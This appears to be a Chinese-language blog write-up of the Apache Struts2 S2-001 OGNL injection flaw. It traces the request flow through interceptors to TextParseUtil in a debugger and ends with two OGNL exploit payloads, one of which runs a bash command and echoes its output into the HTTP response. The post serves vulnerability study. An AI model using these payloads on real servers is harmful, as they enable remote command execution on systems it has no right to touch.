 # JavaStruts2系列-S2-001

  
  
&lt;!--more--&gt;  
## 0x01 S2-001漏洞复现  
### 漏洞影响范围  
WebWork 2.1 (with altSyntax enabled)    
WebWork 2.2.0 - WebWork 2.2.5    
Struts 2.0.0 - Struts 2.0.8  
Struts2对 OGNL 表达式的解析使用了开源组件`opensymphony.xwork. 2.0.3`所以会有漏洞  
### 流程分析  
在`org.apache.struts2.dispatcher.FilterDispatcher`下，在这一个类的`doFilter()`方法中做了如下业务  
设置编码和本地化信息  
创建`ActionContext`对象  
分配当前线程的分发器  
将request对象进行封装  
获取 ActionMapping 对象，ActionMapping 对象对应一个 action 详细配置信息  
执行 Action 请求，也就是 172 行的`serviceAction()`方法  
先在 Filter 的`doFilter()`方法下个断点，开始调试  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410151644176.png)
首先获取当前请求是否已经有`ValueStack`对象，这样做的目的是在接收到 chain 跳转方式的请求时，可以直接接管上次请求的 action。如果没有 ValueStack 对象，获取当前线程的 ActionContext 对象；如果有 ValueStack 对象，将事先处理好的请求中的参数 put 到 ValueStack 中，获取 ActionMapping 中配置的 namespace，name，method 值  
在`187`行这里，跟进`serviceAction()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152328470.png)
通过`ActionProxyFactory`的`createActionProxy()`类初始化一个`ActionProxy`，在这过程中也会创建`StrutsActionProxy`的实例。`StrutsActionProxy`是继承自`com.opensymphony.xwork2.DefaultActionProxy`的，在这个代理对象内部实际上就持有了`DefaultActionInvocation`的一个实例  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152333108.png)
`DefaultActionInvocation`对象中保存了`Action`调用过程中需要的一切信息，继续往下走，跟进`proxy.execute()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152339100.png)
获取到了上下文环境，并且调用`setter`方式赋值上下文，接着继续跟进`invoke()`方法  
在`invoke()`方法中，首先会顺序的递归执行当前`Action`中所配置的所有的拦截器，知道拦截器遍历完毕调用真正的`Action`，此处是一个`interceptor`迭代器再进行遍历操作，对应遍历的内容是`struts2`包内的`struts-default.xml`里面`interceptors`标签中的内容  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152351941.png)
在众多迭代器中，`param`这一个迭代器使用来处理我们输入的参数的，所以会想到，会不会对应的迭代器里就有所谓的 OGNL 表达式的处理呢？跟进去查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152356561.png)
这段的大致意思就是，最开始在登陆框中的`username`和`password`会被保存到stack 里面，通过`ActionContext.getParameters()`方法将`stack`里面的值拿出来，再通过`ValueStack.setValue(String,Object)`方法把值`set`进去  
接着在后文，它表明了这个类能够处理 OGNL 表达式，并且已经考虑了安全性问题  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410152357124.png)
而此处的迭代器调用栈如下  
```java  
intercept:155, ServletConfigInterceptor (org.apache.struts2.interceptor)  
doProfiling:224, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
doProfiling:223, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
profile:455, UtilTimerStack (com.opensymphony.xwork2.util.profiling)  
invoke:221, DefaultActionInvocation (com.opensymphony.xwork2)  
intercept:123, AliasInterceptor (com.opensymphony.xwork2.interceptor)  
doProfiling:224, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
doProfiling:223, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
profile:455, UtilTimerStack (com.opensymphony.xwork2.util.profiling)  
invoke:221, DefaultActionInvocation (com.opensymphony.xwork2)  
intercept:176, ExceptionMappingInterceptor (com.opensymphony.xwork2.interceptor)  
doProfiling:224, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
doProfiling:223, DefaultActionInvocation$2 (com.opensymphony.xwork2)  
profile:455, UtilTimerStack (com.opensymphony.xwork2.util.profiling)  
invoke:221, DefaultActionInvocation (com.opensymphony.xwork2)  
execute:50, StrutsActionProxy (org.apache.struts2.impl)  
serviceAction:504, Dispatcher (org.apache.struts2.dispatcher)  
doFilter:419, FilterDispatcher (org.apache.struts2.dispatcher)  
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)  
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)  
```  
在一个类中进行了对应的迭代器判断  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160000403.png)
一直到迭代器为`params`为止，跟进。跟进之后会到`ParameterInterceptor.doIntercept()`方法处  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160002064.png)
跟进到`setParameters()`方法里面，再从这里面进`setValue()`方法，为什么要跟进`setValue()`方法？因为上面的注释中写到了，OGNL 的语句会被送到`OgnlValueStack#setValue`处进行处理  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160006049.png)
一直跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160007204.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160007364.png)
经历了一系列的迭代器之后，所有迭代器处理完毕了，执行了`invokeActionOnly()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410160012314.png)
通过反射调用执行了`action`实现类里的`execute`方法，开始处理用户的逻辑信息。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162310496.png)
处理完毕用户的逻辑信息之后，我们继续往下走，跟进`executeResult()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162311571.png)
首先`createResult()`这里创建了一个`Result`对象，对应的方法`com.opensymphony.xwork2.DefaultActionInvocation#createResult`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162314918.png)
如果当时调用了`Action`返回了`Result`对象，则直接返回；否则，通过`proxy`对象获取配置信息，根据 resultCode 获取到`Result`对象。  
继续往下走，`executeResult()`方法中调用了`execute()`方法；跟进`doExecute()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162316654.png)
准备执行环境: `request, pageContext`等等后，发送真正的响应信息，可以看到我们自己配置时候返回结果是 `jsp` 文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162317142.png)
之后调用了`JspServlet`来处理请求，在解析标签的时候，在标签的开始和结束位置，会分别调用对应实现类如`org.apache.struts2.views.jsp.ComponentTagSupport`中的`doStartTag()`及`doEndTag()`，这里会调用组件`org.apache.struts2.components.UIBean`的`end()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162324991.png)
跟进`evaluateParams()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162326391.png)
由于`altSyntax`默认开启了，接下来会调用`findValue()`方法寻找参数值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162327320.png)
继续跟进`translateVariables()`方法  
最终触发点是`TextParseUtil#translateVariables`，在此处下了断点之后，可以看到依次进入了好几次，不同时候的`expression`的值都会有所不同，我们找到值为`password`时开始分析。  
经过两次如下的代码之后，将生成 OGNL 表达式，返回了`%{password}`  
```java  
return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);  
```  
然后这次判断不会直接走到`return`，来到后面，取出`%{password}`中间的值`password`赋值给`var`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410162349232.png)
然后通过`Object o = stack.findValue(var,asType)`获得到`password`的值为`%{1&#43;1}`  
然后重新赋值给 expression，进行下一次循环  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202410170005646.png)
在这一次循环的时候，就再次解析了`%{1&#43;1}`这个`OGNL`表达式，并将其赋值给了`o`  
最后`expression`的值就变成了2，不是 OGNL 表达式时就会直接进入  
```java  
return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);  
```  
最后返回并显示在表达那种，这是含有 OGNL 表达式的处理，比正常的处理多了OGNL这一部分，所以 Struts2 的运行流程到此结束。  
### 漏洞利用  
exp  
```java  
%{(new java.lang.ProcessBuilder(new java.lang.String[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})).start()}  
```  
或者  
```java  
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{&#34;bash&#34;,&#34;-c&#34;,&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get(&#34;com.opensymphony.xwork2.dispatcher.HttpServletResponse&#34;),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}  
```  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/javastruts2%E7%B3%BB%E5%88%97-s2-001/  

